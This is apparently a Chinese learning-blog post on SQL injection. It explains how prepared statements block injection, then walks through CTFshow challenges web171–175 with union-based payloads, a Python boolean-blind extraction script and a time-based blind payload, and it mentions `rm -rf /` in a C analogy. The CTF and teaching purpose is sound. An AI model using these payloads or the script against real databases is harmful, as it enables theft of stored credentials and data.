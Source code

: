 ```yaml
---
title: 浅谈 SQL 注入
date: 2025-03-29 09:00:00
tags: [CTF, Web, 渗透]
categories: 学习
---
```


一边瞎扯一边学习，也是很爽的。
<!--more-->

## 前言

我很早就接触过 MySQL，高考完暑假的时候就用 PHP 和 MySQL 搞了个简单的成绩查询系统，当时还不知道有 SQL 注入这个东西，回想起来要是漏给一个会 SQL 注入的人，估计就被打烂了。

但是为什么一直没怎么学 SQL 注入呢？—— 因为后来听说参数化查询基本可以完全防住 SQL 注入了，就感觉学这个没什么意义了。

现在转念一想，咱又不是搞前沿的，用这个打打老系统绰绰有余（关键是面试官真的会问），那就学一下咯。

小 Review: 发现之前写的 BUUOJ 有几题 SQL 注入的题目，挖了坑没补过程，准备学完补上。

## 参数化查询是如何防御 SQL 注入的

可以看下知乎的[这个回答](https://www.zhihu.com/question/52869762)，大概意思如下：

有一个 SQL 语句：

```sql
select count(1) from students where name='张三'
```

注入语句：

```sql
select count(1) from students where name='张三' or 1=1
```

那么 `name` 参数的值 `张三' or 1=1` 就会被当成 SQL 语句的一部分，整个一块编译，导致 SQL 注入。

这时候预编译来了，以下是一个 Java 的实现：

```java
import java.sql.PreparedStatement;

String sql = "select * from user where username=? and passwd=?";
ps = conn.PreparedStatement(sql);
ps.setString(1, "admin");
ps.setString(2, "123456");
resultSet = ps.executeQuery();
```

可以看到，`conn.PreparedStatement()` 函数直接把 SQL 语句编译好了，后面只是传参 + 执行。
可能读者咋一眼看上去会觉得没什么区别，我拿大家都熟悉的场景来举个例子：
相信大家都是接触过 C 语言的，没有预编译的 SQL 就相当于你可以操作 `*.c` 文件给编译器编译并执行，可以把 `int a=?;` 填成 `int a=1; system("rm -rf /");`，而预编译的 SQL 就相当于编译了一段 `int a=0;scanf("%d", &a);`，现在程序只负责接收参数并执行，根本无法编译恶意代码。

## CTFshow 刷题记录

### web171 - web175

给 Xenny 充点钱，在 [NSS](https://www.nssctf.cn/problem/sheet/10708) 上吸收了一下知识，读者如果像我一样也是个小白也可以去支持一下，十来块钱不算贵。
以 CTFshow 的 web171 为例，查询语句题目直接给出（不会有人不知道 PHP 能用 `.` 拼接字符串吧）

```php
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

那我们直接 `'--+` 闭合即可。（`--` 是注释符号，`+` 是干嘛的我也不清楚，加就是了，`#` 也是注释符号，可以根据情况来），引号闭合的意义就是补全前面代码，使得前面部分加上这个引号是一个正常的语句，注释的意义是无视后面的代码，那么这时中间就可以写我们的 SQL 语句了。

```sql
' order by 3--+
```

换成 4 就报错，说明列数为 3
那么采用联注，语句如下：

```sql
' union select database(),version(),user()--+
```

结果分别为 `ctfshow_web`, `10.3.18-MariaDB`, `root@localhost`
查表：

```sql
' union select 1,2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```

结果为 `ctfshow_user`
再查列：

```sql
' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user'--+
```

结果为分别为 `id`, `username`, `password`
最后直接套出整个表，当然根据题意加个 `where username = 'flag'` 也行：

```sql
' union select id,username,password from ctfshow_user--+
```

web172 也是类似，虽然加了个如下拦截，但是我们不出现 `username` 字段即可

```php
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

还是仿照上面一套打下来，最终 payload 如下：

```sql
' union select id,password from ctfshow_user2 where username='flag'--+
```

web173 的拦截比较有意思，直接正则匹配结果了，考虑能不能用 `substr()` 之类的函数截取字符串

```php
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

发现他的 flag 头是 `ctfshow{`，根本不用管，绷，payload 如下：

```sql
' union select id,1,password from ctfshow_user3--+
```

web174 有点刁难了，把数字也拦截了

```php
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

考虑布尔盲注，payload 如下：

```sql
1' and 1=1--+
```

发现此时有返回结果而改为 `1=0` 时返回的结果为空，说明布尔盲注可行，脚本如下：

```python
import requests as r
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


value = ''
i = 1

while True:
    low, high = 0, 127
    char_ascii = 0
    
    while low <= high:
        mid = (low + high) // 2
        # payload = f"1' and 1=if(ascii(substr((database()), {i}, 1)) > {mid}, 1, 0)--+"
        payload = f"1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user4 where username='flag'), {i}, 1)) > {mid}, 1, 0)--+"
        payload = payload.replace(' ', '%20')
        payload = payload.replace("'", "%27")
        # print(payload)
        result = r.get(f'https://777fe6df-5d10-4f76-81f6-91f860d5de1e.challenge.ctf.show/api/v4.php?id={payload}&Page=1&limit=10', verify=False)

        oracle = len(result.json()['data']) > 0
        
        if oracle:  # 条件成立，ASCII值大于mid
            low = mid + 1
        else:
            high = mid - 1
    
    if high < 0:  # 字符位置不存在时退出
        break
    
    char_ascii = high + 1
    if char_ascii == 0:
        break
    
    value += chr(char_ascii)
    print(f"Current: {value}")
    i += 1

print(f"Final value: {value}")
```

注意到 python 用 https 时需要加上 `verify=False`，否则会报错，还要加上 `urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)` 来禁止警告。
Python 的 `requests` 还有个坑就是会把 params 猛猛地 urlencode 一遍，导致最终的 url 面目全非，从而导致 payload 不生效。

web175 拦截更离谱了，直接啥都拦了

```php
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

我倒是想知道生产环境会不会有这么拦的

那从解题的角度来说那只能时间盲注了，payload 如下：

```sql
1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user5 where username='flag'), {i}, 1)) > {mid}, sleep(1), 0)--+
```

oracle 改为 `result.elapsed.total_seconds() > 1` 即可。
// To be continued...

## 参考

<https://www.zhihu.com/question/52869762>
<https://www.freebuf.com/articles/web/339118.html>
